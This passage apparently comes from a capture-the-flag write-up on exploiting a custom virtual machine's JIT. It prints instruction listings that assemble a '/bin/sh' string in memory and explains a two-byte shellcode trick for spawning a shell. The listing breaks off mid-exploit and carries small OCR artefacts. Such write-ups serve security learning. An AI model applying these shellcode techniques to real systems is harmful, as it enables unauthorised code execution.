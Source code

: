 ```C
    "MOV(A, 0)",
    "CMP(A, 18524)",        // (18) <---a
    "JEQ(27)",              // b------->
    "STR(A, 0)",            // store ctr in 0
    ///////////// 20
    "LDR(A, 2)",            // load value from 2
    "ADD(A, 99999)",        // value += 99999
    "STR(A, 2)",            // store value in 2
    "LDR(A, 0)",            // load ctr from 0
    "ADD(A, 1)",            // ctr++
    ///////////// 25
    "JMP(18)",              // a------->
    "LDR(A, 2)",
    "ADD(A, 18699)",        // value += 18699 => 0x6e69622f
    "STR(A, 0)",S
    ...
```

With this done, our "/bin/sh" string has been placed in memory, and we just have to set the values of the registers accordingly. One thing that had to be considered while shellcoding was that we always have 2 bytes of nulls after each 2 bytes of arbitrary shellcode we execute. Unfortunately, these two bytes represent the instruction,
```
0x0000000000000000:  00 00    add byte ptr [rax], al
```
If `rax` doesn't point to a writable region of memory, this will cause a SEGFAULT. As it turns out, it doesn't point to a writeable region, which sucks, but we can fix this within 2 bytes of shellcode. Since `r12` points to the writable `rw-` region, we can simply do `xchg rax, r12` which fits within 2 bytes, and sets our `rax` to a sane value. Afterwards, we can finish up the exploit with some simple pops, pushes and nops which nicely fit within 1 or 2 bytes. The full exploit code looks like so.

```C
const char * prog[] = {
    "JMP(\xe0\xa5\xac)",
    ///////////// 0
    "MOV(A, 95318)",        // push rsi
    "JMP(\xe0\xa5\xae)",
    "MOV(A, 95321)",        // pop rcx
    "MOV(A, 0)",
    "CMP(A, 68)",           // (5) <---a
    ///////////// 5
    "JEQ(14)",              // b------->
    "STR(A, 0)",            // store ctr in 0
    "LDR(A, 1)",            // load value from 1
    "ADD(A, 99999)",        // value += 99999
    "STR(A, 1)",            // store value in 1
    ///////////// 10
    "LDR(A, 0)",            // load ctr from 0
    "ADD(A, 1)",            // ctr++
    "JMP(5)",               // a------->
    "LDR(A, 1)",
    "ADD(A, 45299)",        // value += 45299 => 0x68732f
    ///////////// 15
    "STR(A, 1)",            // save "/sh" in 1

    "MOV(A, 0)",
    "CMP(A, 18524)",        // (18) <---a
    "JEQ(27)",              // b------->
    "STR(A, 0)",            // store ctr in 0
    ///////////// 20
    "LDR(A, 2)",            // load value from 2
    "ADD(A, 99999)",        // value += 99999
    "STR(A, 2)",            // store value in 2
```
